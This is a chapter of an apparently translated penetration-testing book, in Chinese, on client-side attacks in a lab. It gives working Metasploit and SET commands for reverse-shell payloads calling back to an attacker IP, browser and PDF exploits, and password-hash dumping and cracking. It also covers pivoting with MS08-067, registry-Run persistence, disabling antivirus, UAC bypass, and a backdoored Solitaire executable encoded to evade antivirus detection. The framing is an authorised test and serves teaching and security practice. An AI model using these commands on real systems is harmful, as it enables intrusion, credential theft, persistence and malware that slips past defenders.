# 第十二章：探索客户端攻击向量

在本章中，我们将确定我们用于攻击客户的方法。与我们的服务器不同，客户端不提供服务；因此，让客户端等待我们攻击它并不是一件简单的事情。相反，我们将使用技术让客户端前来。在本章中，我们将讨论以下主题：

+   客户端攻击方法

+   从客户端窃取数据

+   使用客户端作为枢纽点

+   客户端利用

+   二进制有效载荷

+   恶意 PDF 文件

+   绕过防病毒软件和其他保护工具

+   混淆和编码

本章将为我们提供有关我们可以瞄准客户的方式的信息。我们将探讨不同的攻击客户的方法。我们还将探讨这是目前我们在今天进行的测试后将呈现的主要攻击向量。我们知道客户在大多数情况下都会点击链接或文件，这是我们攻击客户的矢量。

# 客户端攻击方法

正如我们已经说过的，当涉及到客户端时，他们并不只是坐在那里等待我们的连接；因此，我们必须欺骗他们并让他们前来。我们有许多方法可以做到这一点，现在我们将讨论其中的两种。

## 诱饵

当我们部署诱饵技术时，我们设置某种诱饵，然后等待客户前来采取诱饵。这与钓鱼的方法类似，也就是说，我们试图放置某种诱饵并吸引客户前来。这种方法的问题与钓鱼的问题相同。我们不知道客户是否会来到我们设置诱饵的地方。

## 诱饵

使用诱饵概念，我们仍在试图欺骗客户前来，但我们不只是等待他们前来并采取某种形式的诱饵。相反，我们向客户发送某种形式的通信，然后等待看看他们是否被诱骗跟随我们的钩子。在这种情况下，我们有三种主要方法，它们是电子邮件、网络和 USB 媒体。这也是网络钓鱼和鱼叉式网络钓鱼中使用的方法。在这些方法中，我们向潜在受害者发送电子邮件，然后看看他们是否会点击我们发送给他们的链接。如果他们确实点击了链接，我们就让他们来到我们这里或在他们的系统上运行一个应用程序，并利用这一点来发动我们的攻击。由于我们正在进行虚拟渗透测试环境的工作，我们可以控制攻击的客户端。因此，这是一个在我们的范围内进行实验，看看什么有效和什么无效的问题。如果我们被允许在我们的工作范围内进行客户端测试，我们可以尝试发送网络钓鱼邮件和其他社会工程学方法，看看我们是否能够欺骗员工陷入我们的陷阱。

最好通过示例来展示这一点，因此我们现在将这样做。我们需要 Kali Linux 机器和一台受害者机器。在本书的示例中，我们将使用 Windows 7 机器作为受害者机器。我们将使用 Dave Kennedy 开发的社会工程工具包，您可以从[`www.trustedsec.com`](http://www.trustedsec.com)下载。这是一个出色的工具，有助于进行客户端攻击。我们将为我们的第一个示例探索 Java 攻击向量。

一旦机器启动并运行，我们将打开一个终端窗口并输入`setoolkit`来启动社会工程工具包。接受服务条款并输入`y`以继续下一个提示。菜单的示例如下屏幕截图所示：


社会工程工具包有许多菜单需要您逐步操作，我们现在将这样做。我们将使用**社会工程攻击**菜单，因此输入数字`1`，如下面的屏幕截图所示：


在下一个窗口中，通过输入数字`2`选择**网站攻击向量**，如下面的屏幕截图所示：



在下一个窗口中，通过输入数字`1`选择**Java Applet 攻击方法**，如下截图所示：


我们将使用一个模板，因此输入数字`1`。输入`no`，因为我们不使用端口转发。输入 Kali 机器的 IP 地址以便受害者回连，如下截图所示：



在模板选项中，输入数字`1`选择**需要 Java**，如下截图所示：



我们将输入选项号`2`选择 Meterpreter 反向 shell 载荷，如下截图所示：


在编码选项中，选择选项号`4`，选择**后门可执行文件**。接受默认的监听端口 443。几秒钟后，您应该会看到一个完成消息。如下截图所示：


一旦进程完成，metasploit 程序将运行并输入反向 shell 的配置。一旦这个过程完成，您应该会看到类似下面截图的结果：



进程完成后显示的屏幕（裁剪的文本不重要）

如前面的截图所示，我们现在已经将利用作为后台任务运行，所以我们所要做的就是让客户端点击一个引用我们在利用中设置的 IP 地址的链接。为了我们的测试目的，我们将在 Windows 7 机器上打开一个浏览器，并输入 Kali 机器的 IP 地址。当您用浏览器连接服务器时，会弹出一个引用 Java 的对话框。如下截图所示：



我们的意图是让受害者点击**运行**按钮，所以我们现在要这样做。一旦我们点击按钮，可能会弹出另一个窗口。我们不应该不得不点击超过两次。当我们返回到 Kali 机器时，我们应该会看到一个会话打开。如下截图所示：



我们现在在机器上有一个会话，接下来要做的就是我们想要从这里做什么。我们将在下面看到这一点。

# 从客户端窃取数据

一旦我们获得了机器的 shell，我们将从中窃取信息。首先，我们将检查我们所处的权限级别。我们希望达到系统权限级别，这样我们就可以无障碍地访问数据。我们需要与我们的 shell 进行交互，因此在 Kali 窗口中按下*Enter*，然后输入`sessions –i 1`来访问会话。一旦进入会话，输入`getuid`。如下截图所示：


如前面的截图所示，我们没有达到系统权限级别，所以我们现在要解决这个问题。输入`ps`来显示受害机器上运行的进程。我们将找到一个以系统权限级别运行的进程。我们示例中的受害机器的样本如下截图所示：


如前面的截图所示，我们有几个进程可供选择。我们将尝试迁移`Mcshield.exe`进程。为此，我们输入`migrate 1960`并等待看我们的进程是否成功。如果成功，我们继续输入`getuid`。如果不成功，我们尝试另一个进程。看起来这是一个很好的进程，可以隐藏在按需杀毒扫描器中。如下截图所示：


正如前面的截图所示，我们已经提升了权限，现在正式拥有了这个系统。因此，我们有自由在不需要更高权限级别的情况下窃取信息。

在 Meterpreter shell 中有许多工具可以用来窃取额外的信息。我们将首先探讨的是刮刀工具。顾名思义，我们使用这个工具从被 exploit 的机器中刮取信息。以下是使用该工具的示例截图：



刮刀工具从被 compromise 的机器中提取了大量信息。这就是为什么提取信息和工具完成需要相当长的时间。该工具还从机器中提取密码哈希。我们可以使用`hashdump`命令提取此信息。以下是此过程的示例：


我们可以将哈希保存到文件中，然后通过密码破解工具**John the Ripper**或任何在线网站（如[`www.md5decrypter.co.uk`](http://www.md5decrypter.co.uk)）运行它们。一旦我们将哈希保存到文件`hash.txt`中，我们打开一个终端窗口并输入`john hash.txt --show`。这将启动密码破解过程。以下是此过程的示例：


显示密码破解过程的屏幕（裁剪的文本不重要）

我们还可以使用工具**winenum**来集中注意事实，即机器是 Windows 机器。以下是一个示例：


所有这些信息都保存在目录`/root/.msf4/logs/scripts`中。在这个目录中，您将看到以使用的工具命名的其他目录。使用 winenum 工具后找到的文件示例如下所示：



如前面的屏幕截图所示，我们现在已经从被 compromise 的机器中窃取了大量信息。以下是从`netstat__vb.txt`文件中窃取的信息的示例：



在前面的屏幕截图中，您可以看到机器上的连接。这包括来自我们 Kali 机器的两个连接。正如您所看到的，我们使用端口 443。这样做有几个原因。其中一些原因是：它将看起来像网络日志中的正常流量，我们将加密信息，以便监视机器是盲目的。以下是我们使用的会话的示例：


前面的屏幕截图显示，当我们窃取信息时，并没有显示我们实际在做什么。这使得很难确定会话中发生了什么。

# 使用客户端作为枢纽点

当我们 compromise 一台机器时，我们想要做的下一件事是利用客户端源。这是因为我们知道大多数网络都配置了网络架构内部位置被视为更高级别的信任，而不是网络外部的位置。我们称之为枢纽。

## 枢纽

要设置我们的潜在枢纽点，我们首先需要利用一台机器。然后我们需要检查机器中是否有第二个连接到另一个网络的网络卡，而我们无法在不使用我们利用的机器的情况下到达该网络。在本书的示例中，我们将使用三台机器，Kali Linux 机器作为攻击者，Windows XP 机器作为第一个受害者，Windows Server 2003 机器作为第二个受害者。情景是我们让客户端访问我们的恶意网站，并使用一个名为*Use after free*的漏洞针对 Microsoft Internet Explorer。这种类型的漏洞一直困扰着该产品的多个版本。以下是来自 Exploit DB 网站的示例截图：


列表中列出的漏洞是针对 Internet Explorer 9 的漏洞。在本书的示例中，我们将针对针对 Internet Explorer 8 的漏洞进行攻击；攻击的概念是相同的。简单来说，Internet Explorer 开发人员继续犯一个错误，那就是在分配内存后没有清理内存。

输入`msfconsole`启动您的 metasploit 工具。一旦控制台出现，输入`search cve-2013-1347`来搜索漏洞。搜索结果的示例如下截图所示：


一个担忧是它被评为良好，但我们喜欢在选择我们的漏洞时找到卓越或更好的评级。对于我们的目的，我们将看看是否可以让它工作。当然，总是有可能我们找不到我们需要的东西，不得不选择要么编写我们自己的漏洞，要么记录它并继续测试。

在这本书中我们使用的示例中，Kali 机器的 IP 地址是 192.168.177.170，这也是我们设置的`LHOST`。对于您的目的，您将不得不使用您拥有的 Kali 地址。我们将在 metasploit 窗口中输入以下命令：

```
use exploit/windows/browser/ie_cgenericelement_uaf
set SRVHOST 192.168.177.170
set LHOST 192.168.177.170
set PAYLOAD windows/meterpreter/reverse_tcp
exploit

```

上述命令的结果示例如下截图所示：


如前面的截图所示，我们现在有了我们需要让用户访问的 URL。对于我们的目的，我们将在运行 Windows XP Service Pack 3 的 Internet Explorer 8 中复制并粘贴它。一旦我们粘贴了它，我们可能需要刷新浏览器几次才能使有效载荷起作用；然而，在现实生活中，我们只有一次机会，所以要谨慎选择您的漏洞，以便受害者的一次点击能够产生预期的效果。因此，要成为一个成功的测试人员，对各种漏洞的实践和知识至关重要。一旦利用完成并创建了您的会话，您应该看到的内容示例如下截图所示：


显示一个示例，一旦利用完成并创建了您的会话，您应该看到的内容（裁剪的文本不重要）

现在我们在机器上有一个 shell，并且我们想要检查它是否有双重主机。在 Meterpreter shell 中，输入`ipconfig`来查看您已经利用的机器是否有第二个网络卡。书中我们利用的机器示例如下截图所示：


如前面的截图所示，我们很幸运。我们有第二个连接的网络卡和另一个网络供我们探索，所以现在让我们这样做。我们必须做的第一件事是设置 shell 以路由到我们新发现的网络。这也是我们选择 Meterpreter shell 的另一个原因，它为我们提供了设置路由的能力。在 shell 中，输入`run autoroute –s 10.2.0.0/24`来设置到我们 10 网络的路由。一旦命令完成，我们将查看我们的路由表，并输入`run autoroute –p`来显示路由表。这方面的示例如下截图所示：


如前面的截图所示，我们现在通过会话 1 有了到我们 10 网络的路由。所以，现在是时候看看我们的 10 网络上有什么了。接下来，我们将为我们的会话 1 添加一个后台；按下*Ctrl* + *z*将会话放到后台。我们将使用 metasploit 工具内的扫描功能。输入以下命令：

```
use auxiliary/scanner/portscan/tcp
set RHOSTS 10.2.0.0/24
set PORTS 139,445
set THREADS 50
run

```

端口扫描器效率不高，扫描需要一些时间才能完成。您可以选择直接在 metasploit 中使用 Nmap 扫描器。输入`nmap –sP 10.2.0.0/24`。一旦确定了活动系统，对目标进行扫描方法。在我们的示例中，我们的目标位于`10.2.0.149`。

这次扫描的结果示例如下截图所示：


现在我们有一个目标，我们可以使用我们之前介绍的多种方法来攻击它。在这里，我们将看看是否可以利用著名的 MS08-067 服务服务器缓冲区溢出攻击目标。在 metasploit 窗口中，将会话设置为后台，并输入以下命令：

```
use exploit/windows/smb/ms08_067_netapi
set RHOST 10.2.0.149
set PAYLOAD windows/meterpreter/bind_tcp
exploit

```

如果一切顺利，您应该看到机器上打开了一个 shell。当它打开时，输入`ipconfig`查看机器上的网络配置。从这里开始，只是执行我们之前遵循的过程，如果您找到另一台双主机机器，那么您可以进行另一个枢纽并继续。此结果的示例如下屏幕截图所示：


如前面的屏幕截图所示，枢纽成功了，我们现在在 metasploit 中有另一个会话打开。这反映在**本地管道** | **远程管道**的引用中。完成查看信息后，输入`sessions`以显示会话的信息。此结果的示例如下屏幕截图所示：



## 代理利用

在这一部分，我们将看一下 metasploit 工具使用 HTTP 和 HTTPS 进行通信的能力。我们经常遭受的一种防御是出站或出站流量的概念。现在，通常情况下只允许出站 HTTP 和 HTTPS 流量；因此，metasploit 的开发人员已经为此创建了模块。

## 利用客户端配置

当我们使用技术将通信传输到我们的攻击者机器时，我们将读取客户端配置，然后通过那里配置的代理发送流量。传统上，这是一个困难的过程，需要相当长的时间来设置。因此，时间和通信要求增加了被检测到或会话超时的机会。幸运的是，我们可以探索其他附加选项来帮助我们。metasploit 的开发人员已经创建了两个分段器，允许我们利用客户端配置，并且在 Meterpreter shell 内部原生支持 HTTP 和 HTTPS 通信。此外，这些分段器提供了设置多种不同选项的能力，允许在指定的时间段内重新连接会话，通过设置会话的到期日期。

这两个分段器是**reverse_http**和**reverse_https**。这两个分段器是独特的，它们不与特定的 TCP 会话绑定，即它们提供了基于数据包的事务方法，而其他选项是基于流的。这为攻击提供了更强大的一组选项。此外，我们提供了三个选项来帮助我们确定用户何时完成，它们如下：

+   到期日期：默认值为一周

+   **生存时间**（**TTL**）：默认值为 5 分钟

+   暴露的 API 核心：使用分离命令退出但不终止会话

这些参数允许我们断开会话并自动稍后重新连接。它们还允许我们将有效载荷设置为持久侦听器，然后即使目标重新启动或关闭，也可以连接到它。我们现在将探讨这一点。

我们将使用一个恶意可执行文件作为示例。我们可以使用多种不同的向量，如 Web、电子邮件或 USB，但为了更简单的选择，我们将使用恶意可执行文件。此外，我们将使用一个特殊的工具来创建有效载荷。如果您没有运行 metasploit，请输入`msfconsole`来启动该工具。一旦工具启动，输入`msfvenom -p windows/meterpreter/reverse_https -f exe LHOST=192.168.177.170 LPORT=4443 > https.exe`来创建名为`https.exe`的可执行文件。该命令的输出示例如下屏幕截图所示：


现在我们将设置处理程序。在 metasploit 中输入以下内容：

```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 192.168.177.170
set LPORT 4443
set SessionCommunicationTimeout 0
set ExitOnSession false
exploit –j

```

一旦完成，命令的示例如下截图所示：


现在我们准备让受害者运行我们的可执行文件。在我们将可执行文件移动到受害者机器后，双击文件，返回到 metasploit 处理程序，并观察结果。这一点的一个例子如下截图所示：


从这里开始，取决于我们想要做什么。在 Meterpreter shell 中输入我们之前使用过的一些命令。这里的额外好处是我们所有的通信都会传出到 4443 端口，这看起来会和正常流量一模一样。在 Kali 中，启动 Wireshark 的捕获，观察机器之间的通信。这一点的一个例子如下截图所示：


同样，如果我们想要将端口更改为 SSH、HTTPS 或任何我们认为可以离开我们正在测试的环境的端口，我们是自由的。要了解这种能力有多强大，继续让客户端与你连接。在 Meterpreter shell 中，输入`detach`退出会话；一旦你退出，受害者就会重新连接到你。

这一点的一个例子如下截图所示：


我们接下来要尝试的是通过将代码复制到注册表中来设置受害者，以便攻击即使在重启后也能生存。在 Meterpreter shell 中，输入以下命令：

```
reg enumkey -k HKLM\\software\\microsoft\\windows\\currentversion\\run
reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v evil -d 'C:\windows\https.exe'
reg enumkey -k HKLM\\software\\microsoft\\windows\\currentversion\\run

```

使用这些命令的结果示例如下截图所示：


通过这些命令，我们首先枚举了注册表，然后设置了引用启动时的程序。正如第三个命令所示，`evil`程序现在位于注册表键中。当然，如果我们试图隐藏它，我们会给它取一个别的名字。我们可以通过访问 Windows XP 机器并导航到**开始** | **运行** | **regedit**并搜索程序来验证程序是否已经植入。这一点的一个例子如下截图所示：


现在我们要重启受害者机器。重启后，连接返回到 metasploit 窗口的结果示例如下截图所示：


# 客户端利用

到目前为止，我们所涵盖的大部分内容都是一种客户端利用的形式。在本节中，我们将探讨更多攻击客户端的方法。我们将继续利用客户端的矢量来攻击机器，点击链接或文件并被重定向到我们的攻击者机器。在我们继续之前，我们想再次强调，在撰写本书时，我们使用了最新和最先进的攻击方法。当你阅读本书时，一些事情可能已经发生了变化。然而，唯一不变的是过程和方法论。只要你继续遵循系统化的过程，你就能发现和识别最新的技术，并相应地修改你的方法。

我们在本章中使用的先前方法的一个挑战是，我们必须根据我们遇到的软件版本选择特定的漏洞利用。我们在 Java 和 Internet Explorer 上做到了这一点。这很有效，但是如果我们不知道受害者连接到我们时系统上确切会有什么呢？你可以想象，这是一个合理的担忧。幸运的是，metasploit 出色的开发人员已经解决了这个问题。因此，他们为我们提供了一个模块，一旦连接建立，将尝试提供各种漏洞利用。这个模块就是`browser_autopwn`。这个强大的模块设置了一个带有库存中所有当前漏洞利用的 Web 服务器，当连接建立时，该模块会运行所有可用的漏洞利用，直到找到一个。记住，正如不能被忽视的那样，利用并不是 100%，所以有可能失败。但作为测试人员，我们必须始终尝试，并保持记录发现并继续我们的测试。

所以，让我们开始吧。在 metasploit 界面中，输入以下命令：

```
use auxiliary/server/browser_autopwn
set LHOST <Kali IP>
set SRVHOST <Kali IP>
set SRVPORT 80
set URIPATH /
run

```

`URIPATH`设置告诉 metasploit 不要生成随机 URL。我们希望客户端只连接到运行在 Kali 机器上的服务器的地址。以下是这些设置的示例截图：


一旦输入了`run`命令，你会注意到工具开始创建支持我们的漏洞利用的许多组件。这将需要一些时间来完成。以下是一些不同组件为漏洞利用创建的输出的示例截图：



在撰写本书时，我们准备了 19 个漏洞利用，作为连接受害者的准备工作的一部分。以下是示例截图：



我们之前没有评论过，但是一旦收到 shell，你会注意到迁移过程正在进行。这是因为当你尝试利用漏洞时，浏览器并不是非常稳定。因此，一旦获得访问权限，迁移利用是很重要的。如果浏览器崩溃或被用户关闭，对你的会话影响不大。

当客户端连接时的结果示例如下截图所示：


作为提醒，模块将继续触发漏洞并尝试获取会话，但不能保证一定成功。阅读本书的一些人可能会想知道，如果另一台机器连接到我们的服务器会发生什么。使用 Firefox 作为浏览器的示例，请参考以下截图：


从这一点开始，你所能做的就是等待，看看你是否能幸运地成功利用其中一个漏洞。如果一切顺利，最终你会看到一个会话打开。以下是示例截图：



现在我们有了一个 shell，我们可以执行本书中之前介绍的任何事情。到目前为止我们还没有介绍过一个，我们现在来介绍一下。使用 sessions 命令开始与 Meterpreter shell 进行交互。一旦进入 shell，输入`run getcountermeasure`查看客户端上有什么类型的保护。以下是示例截图：


我们看到机器上有一个潜在的杀毒程序，我们也看到防火墙已经打开。我们要做的第一件事是尝试关闭杀毒程序。输入`run killav`尝试关闭正在运行的杀毒程序。以下是示例截图：


正如前面的截图所示，我们没有成功，这是因为我们没有达到所需的特权级别。我们可以尝试迁移到一个进程来提升我们的特权，但这意味着我们必须额外工作来确定要迁移到哪个进程，而且我们可能不会成功。所以，让我们尝试另一种方法。正如我们不断强调的，我们有方法论；工具会随着时间和大量实践而来。在 Meterpreter shell 中，输入`getsystem`让工具尝试一些技术来提升特权。这方面的一个示例如下截图所示：


正如前面的截图所示，我们现在拥有系统，并且可以关闭我们之前检测到的保护。此外，由于权限已经提升，我们可以在这个系统上做任何我们想做的事情。我们将把这留作一个作业练习，供那些想进一步探索的人使用。

在本节中，我们将再看一件事，那就是绕过机器上的用户账户控制（UAC）的能力。正如我们之前发现的，不能保证我们会成功，但至少我们可以尝试一下。在 metasploit 工具中，如果你不再有活动会话，使用我们之前介绍的各种方法之一来利用机器，并确定会话的特权级别。一旦你做到了这一点，将会话设置为后台，并搜索一个漏洞。我们已经介绍了所有这些步骤，所以在这里我们不会再介绍它们。一旦你准备好搜索，输入`search uac`并搜索 UAC 绕过。

搜索结果的示例如下截图所示：


正如前面的截图所示，我们有许多不同的技术可用，但一个问题是，没有比 2012 年更新的内容，所以我们在利用这方面的成功可能会有限。我们可以尝试，而且由于我们有三种被评为优秀的技术，我们将使用它们。它们共同的一点是，必须启动一个会话才能尝试绕过。我们将从底部开始，逐步向上工作。搜索结果的示例如下截图所示：


正如前面的截图所示，我们在第一次尝试中成功了，从这一点开始，我们可以继续进行之前介绍的后期利用技术。请记住要遵守我们工作范围中详细说明的要求。

# 二进制有效载荷

在 metasploit 工具中，我们有能力生成自己的二进制有效载荷，这就是我们将在本节中讨论的内容。要查看这个选项，启动 metasploit 工具，输入`msfpayload windows/shell_reverse_tcp O`。结尾的`O`将显示可以为我们的有效载荷设置的选项。由于我们正在设置一个反向 shell，你可能已经对此有一个很好的想法。这个命令的输出示例如下截图所示：


正如前面的截图所示，我们有基于我们 Kali 机器的本地机器地址的默认设置。因此，除非我们想要定义一个特定的`LPORT`来穿越防火墙，否则我们实际上不需要进行任何更改。对于我们的目的，我们将保持设置不变。输入`msfpayload LPORT=4443 X > /tmp/chess.exe`。文件创建后，我们将查看文件的详细信息。在窗口中输入`file /tmp/chess.exe`。

这些命令的输出示例如下截图所示：



我们现在准备进行下一步，即将文件传输到受害者机器上，以便他们可以执行它。这就是为什么我们选择了`chess`这个名字；看起来我们为他们准备了一个游戏。在将文件传输到机器之前，我们必须设置 metasploit 工具以接收连接。在 metasploit 窗口中，输入以下内容：

```
use exploit/multi/handler
set payload windows/shell/reverse_tcp
set LHOST 192.168.177.170
set LPORT 4444
exploit

```

这种结果的示例如下屏幕截图所示：

二进制有效负载

我们现在已经准备好受害者连接。就像在整章中一样，我们将文件复制到受害者机器上，然后执行它。由于我们已经解释了很多次，我们将继续下一个项目。

# 恶意 PDF 文件

另一个常见的攻击载体是使用常见文件来托管我们的利用代码，这就是我们在恶意 PDF 文件中所做的。我们将在 PDF 文件中创建一个有效负载；当受害者使用易受攻击的 Adobe Reader 版本运行它时，我们就可以访问该机器。这种载体已经多次被用来妥协大量公司。在 metasploit 中，有许多工具可供我们使用来创建 PDF 文件。在 metasploit 中输入以下命令：

```
use exploit/windows/fileformat/adobe_utilprintf
set FILENAME pay.pdf
set LHOST <Kali>
set LPORT 5555
show options
exploit

```

此命令的输出示例如下屏幕截图所示：

恶意 PDF 文件

正如前面的屏幕截图所示，我们现在将有效负载伪装成 PDF。屏幕截图还显示，我们需要特定版本的 Adobe 才能使漏洞利用起作用。同样，我们已经经历了足够的过程，这里就不再重复了。过程是一样的；唯一的区别是我们将使用 PDF 文件作为攻击的载体。

# 绕过杀毒软件和其他保护工具

我们在客户端测试中面临的挑战之一是（很可能）会有端点保护措施，因此不仅有可能被抓住，还有可能被主机保护删除我们的载体。与任何基于签名的检测一样，存在一个包含已发现的不同病毒及其变种签名的数据库。当我们查看本章中使用的技术时，我们需要看看我们开发的有效负载是否会被杀毒软件检测到。

### 注意

一个非常有帮助的网站是[www.virustotal.com](http://www.virustotal.com)。

我们可以上传我们的潜在有效负载，并查看杀毒软件是否检测到它。在本章前面创建的`https.exe`文件的示例如下屏幕截图所示：

绕过杀毒软件和其他保护工具

正如前面的屏幕截图所示，51 个杀毒产品中有 34 个检测到了该文件。这大约占了 67%，并不是一个很好的检测率。与之前一样，我们将查看我们正在测试的网站是否有杀毒软件的版本，然后我们将查看该产品在查看文件时是否成功。以下屏幕截图显示了一些未将代码检测为恶意的产品示例：

绕过杀毒软件和其他保护工具

我们要查看的下一个文件是我们的 PDF 文件。检测能力的示例如下屏幕截图所示：

绕过杀毒软件和其他保护工具

显示检测能力的屏幕（裁剪的文本不重要）

我们对 PDF 文件的检测率甚至更低，因此我们可以通过更多产品。比二进制有效负载更高。

# 混淆和编码

由于我们知道我们的文件正在被检测到，我们有方法可以尝试使它们更难以被检测到，可以想象，基于签名的检测的目标是修改文件，使其不匹配签名。与以前一样，我们将查看 metasploit 提供的模块，尝试修改文件的签名。我们将查看的工具是 metasploit 中的`msfencode`。我们可以通过输入`msfencode -h`来查看工具的用法。这个命令的输出如下屏幕截图所示：


我们接下来要探索的是实际的编码器本身。这个工具不仅有许多选项，而且有相当多不同的编码器，如下面的屏幕截图所示：



我们将使用的最后一种技术是在可执行文件中创建后门的概念。我们喜欢这一点的原因是我们可以在任何合法的可执行文件中创建后门，当用户运行它时，它们将向我们发送一个 shell。我们将用于此实验的程序是`sol.exe`，即纸牌游戏程序。在使用编码器之前，我们必须从 Windows 机器上复制原始的`sol.exe`文件，并将其放在模板文件夹中，如下面的屏幕截图所示：


一旦我们将文件放在正确的位置，我们将在可执行文件中创建后门，并再次使用`msfpayload`和`msfencode`的组合。输入以下命令：

```
msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.177.170 LPORT=443 R | msfencode -t exe -x sol.exe -k -o sol_bdoor.exe -e x86/shikata_ga_nai -c 3

```

这个命令的输出示例如下屏幕截图所示：


由于我们已经使用了编码器，现在我们想要看看将其上传到 Virustotal 网站后会得到什么结果。以下是一个示例：


我们的编码已经非常成功。现在只有 14%的产品会检测到我们的代码，所以这比以前好多了。而且，我们只做了三次迭代。我们可能还可以进一步改进，这是你可能想要尝试的，但对于我们的目的，我们将在这里停止编码。在这一点上，你将设置多处理程序，然后执行程序；此时，受害者将连接到你的机器。这个示例如下屏幕截图所示：


# 总结

在本章中，我们讨论了客户端攻击，随着供应商改进其安全性，这仍然是首选的方法。我们仍然可以使用本书中讨论的其他方法；随着时间的推移，服务器端攻击变得不那么有效。然而，正如我们在整本书中所说的，你必须测试所有可能性，这就是为什么我们有一个系统化的流程要遵循。我们从研究诱饵和诱饵的概念开始了本章，以便让客户端来到我们这里。

在讨论了诱饵和诱饵之后，我们研究了从客户端窃取数据的方法，也就是说，一旦我们有了 shell，我们可以从客户端提取什么。我们使用了 metasploit 中可用的一些枚举工具来完成这个任务。

在此之后，我们研究了从客户端建立一个枢纽点的强大技术，然后对我们无法访问的机器进行攻击，而这些机器是没有第一个受损机器的情况下无法访问的。

我们讨论的下一个领域是不同类型的客户端利用；我们有`browser_autopwn`，二进制载荷和恶意 PDF 文件。 

最后，我们关闭了这一章，并研究了如何绕过杀毒软件和其他基于签名的检测产品的检测。我们在纸牌游戏程序中创建了一个带后门的可执行文件，并在程序执行后获得了对受害者机器的访问权限。

本章到此结束。在下一章中，我们将看看如何创建一个完整的架构，并将本书中的所有概念整合在一起。
